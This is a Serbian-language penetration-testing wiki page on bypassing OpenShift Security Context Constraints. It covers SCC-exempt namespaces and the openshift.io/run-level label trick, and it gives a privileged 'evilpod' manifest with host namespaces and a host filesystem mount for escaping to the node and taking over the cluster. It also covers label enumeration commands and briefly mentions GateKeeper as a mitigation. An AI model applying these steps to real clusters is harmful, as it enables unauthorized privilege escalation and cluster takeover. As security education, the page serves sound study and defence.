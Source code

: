 # Openshift - SCC bypass

**The original author of this page is** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privileged Namespaces

Podrazumevano, SCC se ne primenjuje na sledeće projekte:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Ako implementirate podove unutar jednog od ovih prostora imena, nijedna SCC neće biti primenjena, što omogućava implementaciju privilegovanih podova ili montiranje datotečnog sistema domaćina.

## Namespace Label

Postoji način da se onemogući primena SCC na vašem podu prema RedHat dokumentaciji. Moraćete da imate najmanje jednu od sledećih dozvola:

- Kreirajte Namespace i kreirajte Pod u ovom Namespace-u
- Uredite Namespace i kreirajte Pod u ovom Namespace-u
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Specifična oznaka `openshift.io/run-level` omogućava korisnicima da zaobiđu SCC-e za aplikacije. Prema RedHat dokumentaciji, kada se ova oznaka koristi, nijedna SCC nije primenjena na sve podove unutar tog imenskog prostora, efikasno uklanjajući sve restrikcije.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Dodaj Oznaku

Da dodate oznaku u vašem imenskom prostoru:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Da biste kreirali namespace sa oznakom putem YAML datoteke:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Sada, svi novi podovi kreirani u imenu prostora ne bi trebali imati nijednu SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

U odsustvu SCC, nema ograničenja na definiciju vašeg poda. To znači da se zlonamerni pod može lako kreirati da pobegne na host sistem.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Sada je postalo lakše eskalirati privilegije za pristup host sistemu i potom preuzeti ceo klaster, stičući 'cluster-admin' privilegije. Potražite deo **Node-Post Exploitation** na sledećoj stranici:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Prilagođene oznake

Pored toga, na osnovu ciljne postavke, neke prilagođene oznake / anotacije mogu se koristiti na isti način kao u prethodnom scenariju napada. Čak i ako nisu napravljene za to, oznake se mogu koristiti za davanje dozvola, ograničavanje ili ne određenog resursa.

Pokušajte da potražite prilagođene oznake ako možete da pročitate neke resurse. Evo liste zanimljivih resursa:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Lista svih privilegovanih imena prostora
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Napredni eksploat

U OpenShift-u, kao što je ranije prikazano, imati dozvolu za implementaciju poda u imenskom prostoru sa `openshift.io/run-level` oznakom može dovesti do jednostavnog preuzimanja klastera. Sa aspekta podešavanja klastera, ova funkcionalnost **ne može biti onemogućena**, jer je inherentna dizajnu OpenShift-a.

Međutim, mere ublažavanja poput **Open Policy Agent GateKeeper** mogu sprečiti korisnike da postave ovu oznaku.

Da bi zaobišli pravila GateKeeper-a i postavili ovu oznaku za izvršenje preuzimanja klastera, **napadači bi morali da identifikuju alternativne metode.**

## Reference

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
